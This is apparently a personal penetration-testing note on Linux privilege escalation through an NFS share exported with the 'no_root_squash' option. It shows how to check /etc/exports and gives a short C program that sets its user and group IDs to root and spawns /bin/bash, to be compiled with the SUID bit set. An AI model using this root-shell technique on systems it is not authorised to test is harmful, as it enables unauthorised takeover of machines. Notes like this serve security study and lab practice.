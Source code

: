 
```sh
cat /etc/exports
```

![[Pasted image 20230527130720.png]]

The critical element for this privilege escalation vector is the “**no_root_squash**” option you can see above. By default, NFS will change the root user to *nfsnobody* and *strip any file from operating with root privileges*. If the “**no_root_squash**” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

Do [[NFS Enumeration]]

![[Pasted image 20230527131337.png]]

```C
int main(){
setgid(0);
setuid(0);
system("/bin/bash");
return 0;
}
```

Once we compile the code we will set the SUID bit.
![[Pasted image 20230527133059.png]]

![[Pasted image 20230527133139.png]]

